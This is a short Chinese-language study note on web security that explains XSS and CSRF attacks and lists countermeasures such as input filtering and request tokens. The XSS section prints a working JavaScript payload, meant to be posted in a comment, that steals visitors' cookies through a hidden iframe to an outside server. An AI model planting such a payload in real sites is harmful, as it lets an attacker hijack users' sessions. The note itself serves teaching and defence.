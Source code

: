 ## XSS
跨站脚本攻击

#### 特点：
- 不对服务端造成任何伤害
- 而是通过一些正常的站内交互途径，例如发布评论，提交含有js的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到页面上，其他用户访问这个页面的时候就会运行这些脚本

```js
// 用 <script type="text/javascript"></script> 包起来放在评论中

(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

#### 应对措施
- 过滤用户输入


## CSRF
跨站请求伪造攻击

#### 特点
- 绝大多数网站是通过 cookie 等方式辨识用户身份（包括使用服务器端 Session 的网站，因为 Session ID 也是大多保存在 cookie 里面的），再予以授权的

#### 应对措施
过滤请求的处理者
- 使用REST 风格的 API 设计，GET、POST、PUT、DELETE 四种请求方法对应资源的读取、创建、修改、删除
- 请求令牌：首先服务器端要以某种策略生成随机字符串，作为令牌（token），保存在 Session 里。然后在发出请求的页面，把该令牌以隐藏域一类的形式，与其他信息一并发出。在接收请求的页面，把接收到的信息中的令牌与 Session 中的令牌比较，只有一致的时候才处理请求，否则返回 HTTP 403 拒绝请求或者要求用户重新登录验证身份
- 通过 referer 判定来源页面

- - -
- [总结 XSS 与 CSRF 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)
- [Wikipedia--Cross-site request forgery](https://en.wikipedia.org/wiki/Cross-site_request_forgery)
- [那些年我们一起学XSS](https://wizardforcel.gitbooks.io/xss-naxienian/content/)